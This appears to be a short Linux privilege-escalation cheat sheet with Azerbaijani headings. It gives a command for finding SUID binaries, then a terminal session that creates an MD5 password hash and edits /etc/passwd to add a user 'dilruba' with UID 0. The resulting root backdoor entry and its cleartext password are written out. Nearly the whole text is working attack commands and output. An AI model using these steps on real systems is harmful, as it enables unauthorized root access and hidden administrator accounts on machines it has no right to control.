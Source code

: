 ## SHOWING SUID
# find / -perm -u=s -type f 2>/dev/null



## ROOTA QALXMAQ etc/passwd -e yaza biliriksə
'''
user7@polobox:/$ openssl passwd -1
Password: 
Verifying - Password: 
$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
user7@polobox:/$ ^C
user7@polobox:/$ nano /etc/passwd
user7@polobox:/$ su dilruba
'''
## Nəticə

# dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
# passwd----dil1123
